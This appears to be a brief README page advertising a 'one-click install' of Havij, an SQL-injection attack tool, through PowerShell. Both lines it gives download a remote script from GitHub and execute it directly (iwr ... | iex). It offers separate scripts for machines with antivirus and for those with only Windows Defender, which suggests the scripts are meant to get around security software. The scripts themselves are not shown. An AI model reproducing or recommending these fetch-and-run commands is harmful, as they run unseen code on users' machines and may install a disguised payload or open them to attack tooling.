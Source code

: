 ## Havij one-click install (PowerShell)

- If you have antivirus software installed, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex

---
- If you only have Windows Defender, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/onelazy.ps1 | iex

